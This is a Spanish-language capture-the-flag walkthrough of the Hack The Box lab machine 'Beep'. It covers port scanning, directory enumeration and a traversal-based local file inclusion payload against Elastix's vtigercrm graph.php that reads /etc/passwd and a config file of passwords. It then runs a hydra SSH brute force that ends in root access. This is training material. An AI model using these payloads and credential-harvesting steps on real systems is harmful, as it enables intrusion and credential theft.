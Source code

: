 # Beep ![Avatar](https://www.hackthebox.eu/storage/avatars/995f465295b99869fce21ecadea4604c_thumb.png)

## Initial Scan
```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES LOGIN-DELAY(0) PIPELINING EXPIRE(NEVER) STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE USER UIDL TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ATOMIC THREAD=ORDEREDSUBJECT ACL CHILDREN OK IMAP4 URLAUTHA0001 X-NETSCAPE LIST-SUBSCRIBED ID ANNOTATEMORE UIDPLUS Completed IMAP4rev1 CONDSTORE SORT=MODSEQ STARTTLS QUOTA NO CATENATE UNSELECT RENAME LITERAL+ NAMESPACE LISTEXT THREAD=REFERENCES IDLE RIGHTS=kxte SORT BINARY MAILBOX-REFERRALS MULTIAPPEND
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-29T08:26:37+00:00; +10s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1)
```

## Enumeration

### HTTP
#### Gobuster
```bash
gobuster -u https://10.10.10.7/ -w /usr/share/dirb/wordlists/big.txt -t 100 -k
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/cgi-bin/ (Status: 403)
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/vtigercrm (Status: 301)
/var (Status: 301)
```
Accediendo a la web vemos que la tecnología usada es Elastix, busquemos en Searchsploit
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                            | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                          | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                    | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                 | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                               | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                           | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

## Exploit

Vamos a probar el LFI
```URL
https://www.exploit-db.com/exploits/37637
```
Checkeando el exploit vemos que para explotar el LFI usamos el siguiente payload
```
payload = Hostname + '/vtigercrm/graph.php?current_language=../../../../../../../../' + RouteToFile + '%00&module=Accounts&action'
```
Accedamos a /etc/passwd para enumerar usuarios con acceso via terminal
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
Tenemos 6 usuarios disponibles veamos si las creds para alguno coinciden con las creds de la pagina

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=amp111
FOPPASSWORD=passw0rd
```
Generamos una lista con los 6 usuarios y las contraseñas que tenemos y probamos con hydra
```bash
hydra ssh://10.10.10.7 -L users.txt -P passwords.txt
```
Casi inmediatamente obtenemos resultados
```
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```
Cuando nos logeamos nos da un pequeño problema con el intercmabio de claves
```
no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
Para solucionarlo y poder logearnos sin problemas con el intercambio de claves usamos el siguiente comando
```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1
```
Y ya solo nos faltaría obtener las dos flag
```
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# wc -c root.txt 
33 root.txt
[root@beep ~]# find / -name user.txt -exec wc -c {} \; 2>/dev/null
33 /home/fanis/user.txt
```
